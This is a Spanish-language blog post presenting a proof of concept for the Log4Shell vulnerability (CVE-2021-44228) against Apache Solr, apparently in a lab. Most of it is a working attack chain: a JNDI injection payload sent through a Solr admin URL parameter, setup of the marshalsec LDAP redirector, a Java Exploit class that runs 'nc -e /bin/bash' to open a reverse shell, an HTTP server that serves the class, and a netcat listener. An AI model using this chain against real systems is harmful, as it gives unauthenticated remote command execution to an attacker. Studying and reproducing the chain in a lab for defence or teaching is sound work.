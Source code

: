 ```yaml
---
layout: single
title:  "log4j CVE-2021-44228 POC"
categories: [cve, poc, articulo]
---
```


## Explotacion de log4jshell  CVE-2021-44228

El pasado jueves salió a la luz una vulnerabilidad que afecta al Java logging package llamado **Log4j**. Etiquetada como **`CVE-2021-44228`** conocida por apodos como **Log4Shell** o **LogJam** y descubierta por el equipo de seguridad de Alibaba, el problema se refiere a un caso de ejecución remota de código no autenticado (RCE) en cualquier aplicación que use esta utilidad de código abierto y afecte a las versiones no parcheadas, de Apache Log4j 2.0-beta9 hasta la 2.14. 1. El error fue calificado con la puntuación máxima de <span style="color:red">10 sobre 10</span>   en el sistema de clasificación CVSS, lo que indica la enorme gravedad del problema.


Para hacer aprovecharnos de esta vulnerabilidad puede ser fácil o a la vez no. La idea es encontrar algún parámetro con lo que enviemos se guarde en los logs para que luego se ejecute, puede ser tanto en el user-agent o en el luego de la url , etc

## POC

 [Apache Solr 8.11.0](https://solr.apache.org/) es una aplicación vulnerable en la que enviándole data en `/solr/admin/cores?foo=` lo va a guardar en los logs. Podemos probar esto de la siguiente manera <br>

 enviando `${jndi:ldap://<IP><PUERTO>}` si es vulnerable nos debería traer una conexión ldap que no entiende la terminal 

 ``` http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:3000} ```

 ![reverse](/assets/articulos/log4j/reverse.png)

Una vez hecho esto, para ganar ejecución de comandos remota tenemos que hacer redireccionar la petición ldap 

Usamos este proyecto que tenemos que compilar con maven <br>
``sudo apt install maven`` <br>
[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) <br>
```mvn clean package -DskipTests``` <br>

![reverse](/assets/articulos/log4j/marshallsec.png)


Ya con nuestro ldap redirector usamos este comando para decirle que abra ruta en nuestro host en el puerto 8080, que próximamente crearemos 

``` java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP>:8000/#Exploit" ```

![ref](/assets/articulos/log4j/ref.png)
 <br>
 Ahora que tenemos nuestro servidor ldap listo, creamos nuestro payload final <br>
 Creamos un script en java el cual tenemos que compilar para que log4j lo ejecute

 ```java

public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <IP> <PUERTO>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

 ```
```javac Exploit.java -source 8 -target 8```


![ref](/assets/articulos/log4j/compilado.png)

Por último creamos nuestro servidor en python en el puerto **8000** `python3 -m http.server 8000` y nuestro netcat en escucha `nc -lvp <PUERTO>`

ahora enviamos en la máquina atacante `${jndi:ldap://10.14.13.223:1389/Exploit}` <br>
`http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:1389/Exploit}`

![get](/assets/articulos/log4j/get.png)

Y en nuestro netcat que habíamos creado 


![get](/assets/articulos/log4j/revshell.png)




